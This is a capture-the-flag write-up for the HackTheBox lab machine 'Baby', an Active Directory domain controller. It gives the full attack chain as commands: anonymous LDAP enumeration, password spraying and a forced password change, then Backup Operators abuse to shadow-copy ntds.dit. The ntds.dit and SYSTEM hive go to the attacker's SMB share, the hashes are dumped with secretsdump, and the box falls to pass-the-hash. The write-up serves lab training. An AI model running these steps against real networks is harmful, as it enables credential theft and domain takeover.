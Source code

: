 # [HackTheBox - Baby](https://app.hackthebox.com/machines/Baby)
![c6f135fd23e08499dbcf0bcab8d08564.png](/resources/c6f135fd23e08499dbcf0bcab8d08564.png)
[toc]
***
## Abstract
Baby is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine.

On the enumeration phase, I found that null session can be used to conduct LDAP search and retrieve a list of user and also the initial password from user description. however there is one user that could not be pull with common user pull method but searching thoughly in the LDAP result will reveal about this user. 

Using password from user description and the hidden user, revealing that we can change password of this user and gain foothold on the machine.

The user that used for footholding is in Backup Operators group which we can backup ntds.dit along with SYSTEM registry hive and dump hashes of all users in the domain using secretdump and then we can use Administrator NTLM hash to login to the machine and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including LDAP and Kerberos which mean this machine is a domain controller. 
```
nmap $IP
```
![26b7efdc620353a2086c3d852c4da222.png](/resources/26b7efdc620353a2086c3d852c4da222.png)

I rescanned again with `-sCV` flag for service enumeration and nmap script engine which reveals domain and hostname that we can add to hosts file but other information are not too special at this point  
![ff14d3ebf97cfed092a71494342ed65e.png](/resources/ff14d3ebf97cfed092a71494342ed65e.png)

After adding domain to hosts file. I started enumerate SMB with NetExec tool and we can see that null session could not be used to retrieve anything from  
![f1d4e9c963c1fed550ace9ded12fa705.png](/resources/f1d4e9c963c1fed550ace9ded12fa705.png)

But after changing protocol to LDAP, we can see that we can pull user lists from the domain and we can also see that we also have a password from user description and it telling us that the initial password of users on this domain is "BabyStart123!" and will likely to be changed after user logon.
```
nxc ldap baby.vl -u '' -p '' --users
```
![2db204965f7ff0c0c07d0b69b3f3c891.png](/resources/2db204965f7ff0c0c07d0b69b3f3c891.png)

I created a userlist with NetExec and then password spraying all users from this user list but no hit which mean all users already changed their password and it seem like I missed something I shouldn't.
```
nxc ldap baby.vl -u '' -p '' --users-export baby_users.txt
nxc smb baby.vl -u baby_users.txt -p 'BabyStart123!'
```
![2ac46c2fab4c297d6944f279690dca56.png](/resources/2ac46c2fab4c297d6944f279690dca56.png)
![81e4fe894bd107521a7ac680c1790ab4.png](/resources/81e4fe894bd107521a7ac680c1790ab4.png)

I used a simple LDAP search to search for something I might have missed and sure enough, there is one user that could not be pulled with my netexec 
```
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" | grep member:
```
![05e5906012ebbd05e0e9677198203c52.png](/resources/05e5906012ebbd05e0e9677198203c52.png)

I tried to find the reason about it and 0xdf gave on on his write-up "That’s because this user doesn’t have any data associated with them" which is really interesting
![985b8b827cb9d296ec8fbddde273a42b.png](/resources/985b8b827cb9d296ec8fbddde273a42b.png)

I dug into the [source code](https://github.com/Pennyw0rth/NetExec/blob/f981215d776d56234d51f95ac2e48f11e149fe31/nxc/protocols/ldap.py#L740) of NetExec when using ldap to parse user list which reveals that NetExec will retrieve only object with `sAMAccountType` = 805306368 (normal user accounts) and "Caroline.Robinson" does not have this value so it didn't make to the list.
![53e6e1e570ed1d906995202caa67ec33.png](/resources/53e6e1e570ed1d906995202caa67ec33.png)

## Initial Foothold by Changing password of Caroline.Robinson

I used the credential found on user description on this user and we can see that we can change password of this user and continue our operation.
```
nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'
```
![6609dadf07b72af65f34ae4ebb95de21.png](/resources/6609dadf07b72af65f34ae4ebb95de21.png)

I used uv to run latest version of NetExec from Github to use change-password module since NetExec on Kali linux is not the latest version and it does not have this module. (you can use other tool to change password of this user)
```
uv run nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```
![0eef906aa335b4004f160937bb3d3f2a.png](/resources/0eef906aa335b4004f160937bb3d3f2a.png)

Now we can use this account to eneumerate further but nothing too special on share here.
![d184b24b122d32a5e684378c0e132b6c.png](/resources/d184b24b122d32a5e684378c0e132b6c.png)

We can use this user to gain a foothold as we can see "Pwn3d!" message from NetExec with WinRM protocol 
```
nxc winrm baby.vl -u 'Caroline.Robinson' -p Password123
```
![2316cf50ce55d71714b1dbc3a8672b7a.png](/resources/2316cf50ce55d71714b1dbc3a8672b7a.png)

Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can gain a foothold and loot user flag located on the desktop of this user.
![495cb95b3a45b41f28535d9e863c6a69.png](/resources/495cb95b3a45b41f28535d9e863c6a69.png)

## Privilege Escalation with Backup Operators group

After gaining foothold, I used whoami command to list information about current user to find a low-hanging fruit and we can see that this user is a member of Backup Operators group which can backup (SeBackupPrivilege) and restore (SeRestorePrivilege) file on this machine.
```
whoami /all
```
![86434904fbd98b5f38ef2b2c6fa52047.png](/resources/86434904fbd98b5f38ef2b2c6fa52047.png)

Since this is the domain controller, I will need to create a backup of ntds.dit which is active directory database and SYSTEM registry hive to dump hashes from both of these files, SYSTEM registry can be retrieve with just 1-2 command but on the other hand. I need to create a shadow copy so I can safely retrieve ntds.dit file.

I will use diskshadow to create shadow copy or C drive but first, I need to create a script to automate this first and here in the script
```
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias wowza   
create   
expose %wowza% E:   
end backup
```

The script will create a shadow copy snapshot of C drive and map to E drive and thats it but since this script was created on my Kali Linux, I need to convert Unix format (Line Feed) to DOS format (carriage return + Line feed) which will make this script able to run on Windows.
```
unix2dos diskshadow.txt
```
![28cabc9ae7f5843c32bd774114fb0717.png](/resources/28cabc9ae7f5843c32bd774114fb0717.png)

Next, I uploaded the script on my winrm session and execute it. no error and now we are ready for the file transfer.
```
upload diskshadow.txt
diskshadow /s diskshadow.txt
```
![ce09650189645b3ef5b09f67aa5bdea4.png](/resources/ce09650189645b3ef5b09f67aa5bdea4.png)
![2c89cee29b28fb4bd2358de6f21a5210.png](/resources/2c89cee29b28fb4bd2358de6f21a5210.png)

Since SYSTEM hive and ntds.dit files are quite large so, I opened my netshare share and copy both files to my Kali Linux. This way is much faster than download function in evil-winrm. first I created a backup of SYSTEM hive with reg save command.
```
reg save hklm\system c:\system
cp system.hive \\10.10.14.24\debug\
```
![1b2ada0a9d181e68400962ee83cc16a9.png](/resources/1b2ada0a9d181e68400962ee83cc16a9.png)
![985f2bfdcd10aa66d3ae23d309d8a909.png](/resources/985f2bfdcd10aa66d3ae23d309d8a909.png)

Next is ntds.dit file and now we are ready to dump all the hashes inside both files.
```
robocopy /b E:\windows\ntds . ntds.dit
cp ntds.dit \\10.10.14.24\debug\
```
![d512b652ff079e0c93a572daca4eb8c3.png](/resources/d512b652ff079e0c93a572daca4eb8c3.png)

The tool that can be used to dump hashes is secretsdump from impacket and now we can get NTLM hash of Administrator account and gain access to target system via pass-the-hash technique.
```
impacket-secretsdump -ntds ntds.dit -system system.hive local
```
![6fc8fe601dbfd6152a5c6f96fc7463d1.png](/resources/6fc8fe601dbfd6152a5c6f96fc7463d1.png)

Login as Administrator and loot the flag, Now we are done :D
```
evil-winrm -i baby.vl -u 'Administrator' -H ee4457ae59f1e3fbd764e33d9cef123d
```
![772a9088ed368afeb8025d4b47c76b7d.png](/resources/772a9088ed368afeb8025d4b47c76b7d.png)

https://labs.hackthebox.com/achievement/machine/1438364/739
***